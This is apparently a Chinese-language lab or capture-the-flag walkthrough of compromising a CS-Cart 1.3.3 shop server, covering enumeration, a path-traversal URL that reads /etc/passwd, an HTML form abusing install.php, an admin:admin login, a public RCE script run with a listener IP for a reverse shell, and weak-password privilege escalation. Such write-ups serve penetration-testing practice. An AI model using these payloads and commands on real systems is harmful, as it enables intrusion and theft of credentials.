










## nmap



## web



扫出来很多目录，但是好多都是需要登录才能访问，筛选了一下重复的最终得到以下目录

```
/admin
/config
/classes
/image
/init
/install
/Thumbs.db 
```

在/install安装目录时发现了版本号，还有一个需要注意的是，他告诉验证码在php.php文件中，但是访问不到php.php，如果可以访问到到后面的安装步骤应该是可以看到默认密码的



使用`searchsploit`搜索`internetshop`没有相关漏洞，再搜索`cs cart`，1.3.3存在很多漏洞，尝试看看哪个可以成功利用



## exploit

### 'classes_dir' LFI 

目录穿越漏洞可以使用

```
http://192.168.243.39/classes/phpmailer/class.cs_phpmailer.php?classes_dir=../../../../../../../../../../../etc/passwd%00
```



### 'install.php' Cross-Site Scripting 

跨站点访问漏洞也可以正常使用，按照使用说明，创建一个html文件，将url修改，然后访问不同的数字就可以访问install.php时安装的步骤

```
<html>
<form name="installform" method="post" action="http://<Victim Ip>/install.php">
<input type="text" name="step">
<input type="submit" id="nextbut" value="xss">
</form>
</html>
```

exp中推荐访问步骤三，步骤三中的内容是最丰富的



这些应该都是默认信息，可能安装时对其做了修改

### authenticated RCE--get shell

经过认证的RCE，在已经收集到的一些信息中没有找到登录相关的信息，但是这个exp给出了一个新的目录/skins目录，该目录下有admin用户



尝试弱密码爆破一下admin，经过几次简单尝试最终`admin:admin`成功登录，网上存在该漏洞的[自动化脚本](./https://github.com/jayngng/cs-cartv1.3.3)

```
python3 cs_cart.py --url http://192.168.243.39 -U admin -P admin -l 192.168.45.201 -p 1324
```



在config.php下找到了数据库账号密码，并且都是默认账号密码




## 提权

最终绕了一圈，patric用户是弱密码，密码就是用户名，直接登录即可，登录后该用户就有root权限

